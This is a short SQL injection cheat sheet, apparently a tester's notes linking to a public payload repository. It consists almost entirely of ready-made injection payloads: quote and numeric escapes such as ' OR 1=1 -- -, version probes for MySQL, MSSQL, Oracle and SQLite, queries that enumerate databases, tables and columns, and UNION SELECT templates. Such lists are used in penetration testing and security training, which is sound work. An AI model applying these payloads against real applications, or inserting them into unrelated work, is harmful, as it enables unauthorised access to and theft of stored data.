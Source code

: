 [PATT Doc](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
#### Escaping

With quote `'` if the value is a string
`' OR 1=1 -- -`

With space ` `  if the value is a number
` OR 1=1 -- -` 


#### Get sql version
Insert the payload in a vulnerable field by update/insert

**MySQL and MSSQL**
`@@version`

**Oracle**
`(SELECT banner FROM v$version)`

**SQLite**

```sql
sqlite_version()
```


#### Get database

**MySQL / MariaDB**

```sql
select database()
```

#### Get database tables
Insert the payload in a vulnerable field by update/insert

**MySQL / MariaDB**

```sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = '[database]'
```

**SQLite**

```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

#### Get table columns

**MySQL / MariaDB**

```sql
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '[table]'
```

#### Union
The UNION operation must select the same number of fields as the tables it originates from.

If the originate table contains 4 fields, the union should be:

```sql
' UNION SELECT 1,2,3,4
``` 

The `[SQL-COMMAND]` depend on the SQL type

```sql
' UNION SELECT 1,([SQL-COMMAND])
```


